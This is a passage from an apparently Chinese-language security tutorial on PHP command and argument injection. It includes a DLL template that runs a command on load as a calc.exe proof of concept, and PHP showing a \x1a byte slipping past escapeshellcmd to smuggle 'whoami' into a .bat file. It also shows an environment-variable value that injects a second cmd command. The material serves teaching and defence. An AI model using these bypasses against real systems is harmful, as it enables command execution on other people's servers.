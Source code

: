 恶意dll

```c
#include <windows.h>
BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,
    DWORD fdwReason,
    LPVOID lpReserved )
{
    switch( fdwReason )
    {
        case DLL_PROCESS_ATTACH:
            system("cmd /c calc.exe");
            break;
        case DLL_THREAD_ATTACH:
         // Do thread-specific initialization.
            break;
        case DLL_THREAD_DETACH:
         // Do thread-specific cleanup.
            break;
        case DLL_PROCESS_DETACH:
         // Perform any necessary cleanup.
            break;
    }
    return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```


还有很多命令都有`-o`之类的参数，实在利用不了的话可以注入这种参数，可以作为任意文件覆盖。



### 其他

抛开参数注入说回命令注入，还有一些老版本PHP才有的漏洞，比如%00截断、%c0截断等，但是大部分在最新的PHP中已经利用不了了，这里有两个点还可以利用的。

在Windows的bat文件中，命令的分隔符和命令行有细微的差异，有研究员对此进行过fuzz，发现`\x1a`在bat文件中是可以作为分隔符的（出处在[这里](https://seclists.org/fulldisclosure/2016/Nov/67)），而在cmd中却不行，`escapeshellcmd`函数也是不会过滤`\x1a`的，所以执行以下代码：

```php
$dir = "ipconfig \x1a whoami";
file_put_contents('out.bat', escapeshellcmd('whatever '.$dir));
system('out.bat');
```
得到的结果为：
```bash
D:\tools\xampp\htdocs>whatever ipconfig D:\tools\xampp\htdocs>whoami 1-ac0049\Administrator
```

另外一个利用条件也是比较苛刻，假设我们可以设置一个环境变量`EVIL=AA&BB`，然后直接在命令注入中执行：

```bash
C:\Users\kuron3k0>set EVIL=AA^&BB

C:\Users\kuron3k0>echo %EVIL%
AA
'BB' 不是内部或外部命令，也不是可运行的程序
或批处理文件。
```
